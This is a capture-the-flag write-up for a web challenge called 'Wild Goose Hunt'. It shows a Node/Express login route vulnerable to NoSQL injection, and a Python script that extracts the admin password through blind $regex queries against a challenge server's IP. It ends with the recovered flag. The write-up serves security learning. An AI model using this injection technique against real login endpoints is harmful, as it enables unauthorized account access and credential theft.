

# Wild Goose Hunt
## Description
Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

## Files
Provided docker environment.

## Code

### `entrypoint.sh` (docker initialization file)
```sh
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh
mkdir /tmp/mongodb
mongod --noauth --dbpath /tmp/mongodb/ &
sleep 2
mongo heros --eval "db.createCollection('users')"
mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
/usr/bin/supervisord -c /etc/supervisord.conf
```

### `routes/index.js`
```js
const express = require('express');
const router  = express.Router();
const User    = require('../models/User');

router.get('/', (req, res) => {
        return res.render('index');
});

router.post('/api/login', (req, res) => {
        let { username, password } = req.body;

        if (username && password) {
                return User.find({ 
                        username,
                        password
                })
                        .then((user) => {
                                if (user.length == 1) {
                                        return res.json({logged: 1, message: `Login Successful, welcome back ${user[0].username}.` });
                                } else {
                                        return res.json({logged: 0, message: 'Login Failed'});
                                }
                        })
                        .catch(() => res.json({ message: 'Something went wrong'}));
        }
        return res.json({ message: 'Invalid username or password'});
});
```

### `models/User.js`
```js
const mongoose = require('mongoose');
const Schema   = mongoose.Schema;

let User = new Schema({
        username: {
                type: String
        },
        password: {
                type: String
        }
}, {
        collection: 'users'
});

module.exports = mongoose.model('User', User);
```

## Methodology
We are using a `POST /api/login` request to fetch documents from `mongo` to login. We get a confirmation on successful or unsuccessful login. However `mongo` input is unsanitized, therefore we can use special `mongo` fetch constructs to get special results from the db. We will use [regex](https://docs.mongodb.com/manual/reference/operator/query/regex/) for a blind boolean-based nosql. This way, we can exfiltrate the password one character at the time from the db.

## Exploit
```python
#!/usr/bin/python3

import requests
import json
import string

st = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ}'

pas = 'CHTB{'
for i in range(64):
  for i in range(0, len(st)-1):
    data = {'username': 'admin', "password":{"$regex": "%(pass)s%(i)s.*" % {"pass":pas, "i":st[i]}}}
    r = requests.post('http://138.68.148.149:30865/api/login', json=data)
    c = r.content.decode()
    j = json.loads(c)
    
    if j['logged'] == 1:
      pas += st[i]
      print(pas)
      break
```

Bruteforcing...



Closing curly brace wasn't detected, so we add it at the end.

## Flag
**CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}**